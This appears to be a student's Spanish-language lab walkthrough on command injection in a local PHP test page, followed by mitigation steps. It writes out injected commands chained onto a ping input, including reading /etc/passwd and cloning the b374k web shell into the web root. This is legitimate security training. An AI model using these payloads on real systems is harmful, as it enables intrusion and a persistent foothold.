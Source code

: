# PPS-Unidad3Actividad6-AimarMartin

1. Primero escribimos un archivo llamado **rce.php** con el siguiente contenido

![](/img/1.png)

2. Una vez lo hemos añadido a la carpeta de apache lo buscaremos en un navegador

![](/img/2.png)

3. Si hacemos ping a **8.8.8.8** nos dirá si el servidor está accesible

![](/img/3.png)

pero si lo enlazamos con **8.8.8.8 & id** podemos anudar consultas que nos mostraría el usuario con el que estamos ejecutando las sentencias php

![](/img/4.png)

4. Ahora con **8.8.8.8 & ls** intentaremos listar los archivos del directorio donde se encuentra el archivo rce.php con

![](/img/5.png)

5. Vamos a probar que nos muestra con el comando **8.8.8.8 & cat /etc/passwd**

![](/img/6.png)

6. Para el siguiente ejemplo le daremos permisos de lectura y escritura a la carpeta del apache

![](/img/7.png)

7. Introducimos **8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k** ara concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k

![](/img/8.png)

8. Escribimos **http://localhost/b374k/index.php** en el navegador

![](/img/9.png)

9. Para las mitigación editamos el archivo **rce.php** y añadimos lo siguiente

![](/img/10.png)

10. Escribiremos en el navegador **http://localhost/ejercicio_3_6/rce.php?cmd=cat%20/etc/passwd** y observamos la salida que nos muestra

![](/img/11.png)

11. Por otro lado creamos el archivo **rce.html**

![](/img/12.png)

12. Lo que hace es crearnos un input para solicitarnos el código a ejecutar y luego, llamar con él, a rce.php.

![](/img/13.png)

13. Volvemos a editar el archivo **rce.php** para mitigar vulnerabilidades

![](/img/14.png)

14. Si escribimos **http://localhost/ejercicio_3_6/rce.php?cmd=ls** si nos saldrá la información aun con las restricciones que le hemos puesto anteriormente

![](/img/15.png)

15. Pero no nos permitirá una consulta

![](/img/16.png)

16. Si queremos dejar escapes seguros modificaremos el archivo con el siguiente contenido

![](/img/17.png)

17. Con esto evitaremos caracteres especiales como los siguientes

![](/img/18.png)

18. Entramos en la máquina docker con **docker exec -it lamp-php83 /bin/bash** y editamos el fichero que se encuentra en la ruta **/usr/local/etc/php/php.ini**

![](/img/19.png)

19. Si entramos en la ruta http://localhost/rce.php?cmd=id nos tendrá que dar un error

![](/img/20.png)